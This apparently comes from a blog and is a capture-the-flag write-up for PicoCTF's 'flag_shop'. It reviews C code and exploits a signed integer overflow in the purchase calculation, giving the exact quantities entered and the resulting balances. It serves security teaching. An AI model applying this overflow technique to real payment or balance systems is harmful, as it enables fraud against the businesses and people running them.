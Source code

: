 ```yaml
---
title: "PicoCTF: flag_shop"
date: 2024-11-20T14:26:45-06:00
draft: false
tags:
- PicoCTF
- Integer Overflow
- Code Review
---
```



### Description
flag_shop is a challenge on PicoCTF where an integer overflow vulnerability allows for the purchase of an 1337 flag where we otherwise would have insufficient funds.

### Walkthrough
#### Functionality Testing
Connecting to the Pico server, we get a menu with several options.

```
┌──(kali㉿kali)-[/tmp]
└─$ nc jupiter.challenges.picoctf.org 9745
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
```

We can see our account balance.

```
 Enter a menu selection
1



 Balance: 1100 
```

We can also buy flags, of which there are two options. Options 1 costs 900 each, whereas option 2, the "1337 flag", costs 100000 each.

```
 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
1
These knockoff Flags cost 900 each, enter desired quantity
```

```
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one
```

We are asked to buy a flag, presumably the 1337 flags, so let's get started.


#### Code Review
The first thing that caught my eye was the usage the unsecure ```scanf()```. ```scanf()``` takes data from 
standard input and stores it to the address of a variable. However, it does not set a limit on the size of user input, meaning
 it is vulnerable to overflow. For this challenge, I did not need to exploit ```scanf()```, but it is still a vulnerability worth 
 keeping in mind.

We also see that the ```store.c``` uses an integer to store the total cost of the flags in 
```total_cost```, meaning it can be interpreted as positive or negative. ```total_cost``` is derived by multiplying the cost of flag 1 
(900) with the number of flags our user wants to buy, so the number of flags we buy could flip the most significant bit of ```total_cost``` to 1, 
turning it into a negative number.

```C
            if(auction_choice == 1){
                printf("These knockoff Flags cost 900 each, enter desired quantity\n");
                
                int number_flags = 0;
                fflush(stdin);
                scanf("%d", &number_flags);
                if(number_flags > 0){
                    int total_cost = 0;
                    total_cost = 900*number_flags;
                    printf("\nThe final cost is: %d\n", total_cost);
                    if(total_cost <= account_balance){
                        account_balance = account_balance - total_cost;
                        printf("\nYour current balance after transaction: %d\n\n", account_balance);
                    }
                    else{
                        printf("Not enough funds to complete purchase\n");
                    }   
                }   
            }
```


#### Exploitation
In two's complement, the most significant bit, or leftmost digit determines whether a number is positive (0) or negative (1). 
When our total cost ends up being greater than the maximum positive integer, the cost becomes negative if the most significant bit is 1.
Since the price of a flag is 900, we can overflow our cost by buying ```maximum_integer/price_per_flag``` flags. Of course, this value needs to be
rounded up (or +1 if the quotient is a whole number).

```
┌──(kali㉿kali)-[/tmp]
└─$ python3
Python 3.12.6 (main, Sep  7 2024, 14:20:15) [GCC 14.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import math
>>> math.ceil(2147483647/900)
2386093
>>> 2147483647/900
2386092.941111111
>>> 
```

However, when I try to buy 2386093 flags, I am thrown deep into debt!

```
These knockoff Flags cost 900 each, enter desired quantity
2386093

The final cost is: -2147483596

Your current balance after transaction: -2147482600
```

Let us figure out why this is happening. I've provided a script below to find the binary representation of an integer.

```C
#include <stdio.h>
#include <stdlib.h>
#include <strings.h>


void getBin(int);

int main(int argc, char* argv[]) 
{
        if (argc != 2)
        {
                printf("Usage: %s <num>", argv[0]);
                exit(1);
        }

        getBin(atoi(argv[1]));

        return 0;
}

void getBin(int num)
{
        char bin[33];
        unsigned short index = 0;
        bin[index] = (num >> 31 & 1) + 48;

        for (int i = 1 << 30; i > 0; i >>= 1)
        {
                index++;
                num & i ? (bin[index] = '1') : (bin[index] = '0');
        }

        bin[32] = '\0';

        printf("Number: %d\n", num);
        printf("Binary: %s\n", bin);

        return;
}
```

Calculating our expense, we get a positive number.

```
┌──(kali㉿kali)-[/tmp]
└─$ ./int2bin $(( 0-2386093*900  ))
Number: 2147483596
Binary: 01111111111111111111111111001100
```

However, we start with 1100 in our balance, not 0. If we recalculate our balance with that accounted for, we get a negative number.

```
┌──(kali㉿kali)-[/tmp]
└─$ ./int2bin $(( 1100-2386093*900  ))
Number: -2147482600
Binary: 10000000000000000000010000011000
```

The easiest way to fix our debacle would be to add 1100/900 when calculating the number of flags we need to buy since 
we will need to overflow an additional 1100 for flags that cost 900 each. 

```
>>> math.ceil(2147483647/900+1100/900)
2386095
```

And now we have a large, positive amount of money after the transaction...

```
These knockoff Flags cost 900 each, enter desired quantity
2386095

The final cost is: -2147481796

Your current balance after transaction: 2147482896
```

...and buy the 1337 flag.

```
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one1
YOUR FLAG IS: picoCTF{m0n3y_<redacted>}
Welcome to the flag exchange
We sell flags
```